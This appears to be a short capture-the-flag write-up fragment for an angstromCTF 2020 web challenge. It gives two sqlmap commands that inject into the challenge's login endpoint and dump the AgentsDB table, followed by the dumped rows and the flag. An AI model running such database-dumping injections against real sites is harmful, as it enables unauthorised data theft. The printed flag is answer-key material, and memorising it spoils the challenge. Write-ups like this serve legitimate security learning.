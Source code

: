 sqlmap -u "https://agents.2020.chall.actf.co/login?" --level=3 --dbs
sqlmap -u "https://agents.2020.chall.actf.co/login?" --level=3 -D AgentsDB --dump

+----------------------------------------------------------------------------------------------+--------------------------------+
| UA                                                                                           | Name                           |
+----------------------------------------------------------------------------------------------+--------------------------------+
|  AAAA                                                                                        | GRU                            |
|  shrek V                                                                                     | vector but elon musk's brother |
| 123ujklaguhjnkadsuop98uij2k3l4mlgjaisdopgjk;mlkl;k234lkjhasd89f709iok23jkdf keyboard bash op | actf{nyoom_1_4m_sp33d}         |
| neeeeeeeeeeeeeeeeeeeeeeeeum                                                                  | wile e. coyote                 |
| I WANT THAT KRABBY PATTY                                                                     | PLANKTON                       |
| bzzzzzzztaaaa                                                                                | mort                           |
| bzzz';lhjkdjsjkldfgzzzztaaaa                                                                 | shaggy, destroyer of worlds    |
| hiiiii whatis our aaa                                                                        | matt, lord of fitness          |
| nice try but this is harder :p                                                               | admin                          |
+----------------------------------------------------------------------------------------------+--------------------------------+
